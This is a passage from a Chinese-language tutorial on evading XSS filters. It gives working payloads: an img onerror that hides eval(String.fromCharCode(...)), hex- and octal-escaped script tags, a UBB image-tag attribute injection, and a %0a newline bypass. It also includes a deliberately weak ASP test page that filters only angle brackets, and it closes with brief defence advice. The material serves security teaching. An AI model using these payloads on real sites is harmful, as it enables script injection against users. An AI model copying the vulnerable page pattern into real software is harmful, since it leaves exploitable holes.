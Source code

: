 		<img src="x"/**/onerror="eval(String.fromCharCode(97,108,101,114,116,40,39,112,111,114,117,105,110,39,41))"></img>
		
		执行效果如上图一样，没有关键字同样执行想要执行的代码。

		7. 转义字符

		首先要认识一下“\”，这个不是斜杠么。对的，斜杠在JAVASCRIPT有着特殊的用途，它是转义的符号。例如，我们把我们XSS语句转换成16进制，这里是<script>alert(‘poruin’)</script>,我用在CHA88那里淘过来的脚本工具来转换，如图：(工具地址：http://tools88.com/safe/xss.php)
		
		结果如下
		
		\x3C\x73\x63\x72\x69\x70\x74\x3E\x61\x6C\x65\x72\x74\x28\x27\x70\x6F\x72\x75\x69\x6E\x27\x29\x3C\x2F\x73\x63\x72\x69\x70\x74\x3E
		
		这些就是经过编码后的字符，因为前面的斜杠缘故，所以后面的这些字符在JAVASCRIPT中都会被还原。
		
		我们再来看一下测试用的index.asp
			<form name=form>
			<input type=text name=text1>
			<input type=submit name=submit>			
			</form>			
			<%			
			if request("text1")<> "" then			
			a=replace(replace(request("text1"),"<","&lt;"),">","&gt;")			
			end if			
			%>
			<script>		
			a="<%=a%>"		
			document.write(a)		
			</script>
		
		很简单的内容，接受用户的数据后过滤<>，再用JAVASCRIPT显示出来，直接输入XSS的测试语句看看，被转换掉了吧。再来输入经过16进制转换后的字符，这些字符都可以轻松的逃过过滤，完整进入代码中，经过JAVASCRIPT还原之后，正确解释出来。		
		而不但是十六进制可以，八进制同样奏效，转换后代码如下：
			\74\163\143\162\151\160\164\76\141\154\145\162\164\50\47\160\157\162\165\151\156\47\51\74\57\163\143\162\151\160\164\76

		8. UBB标签
		UBB标签是目前广泛运用到论坛，留言簿，以及其他网站系统的一种编码标签，类似[img]url[/img]这样的，用户在中间输入地址后即可，在发表的时候系统会自动改成<img src=”url”></img>。这个URL就是用户输入的图片地址，XSS攻击中，可以利用这个特点来达到无需用户输入<>就能执行由用户所输入的代码，我们只要在输入网址的地方输入：
		x"/**/onerror="alert('poruin')
		
		那么经过转换后就变成了
		
		<img src="x"/**/onerror="alert('poruin')"></img>
		
		在JS中空格可以用/**/转换

		9. %0a换行绕过
		Payload:%0aalert(0);

#如何防御XSS呢?
##思路
对用户的输入进行白名单检测!
对HTML代码进行编码
对Javascript进行javascriptencode,一层归一层,不要混肴!
使用UTF-8编码!
过滤HTML事件
给予最小权限
